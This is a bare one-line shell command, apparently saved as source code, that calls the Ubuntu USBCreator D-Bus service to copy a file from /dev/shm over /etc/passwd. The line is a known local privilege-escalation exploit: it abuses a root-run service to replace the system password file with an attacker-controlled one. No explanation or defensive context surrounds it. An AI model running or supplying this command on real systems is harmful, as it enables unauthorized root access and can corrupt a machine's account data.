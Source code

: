 gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/passwd /etc/passwd true


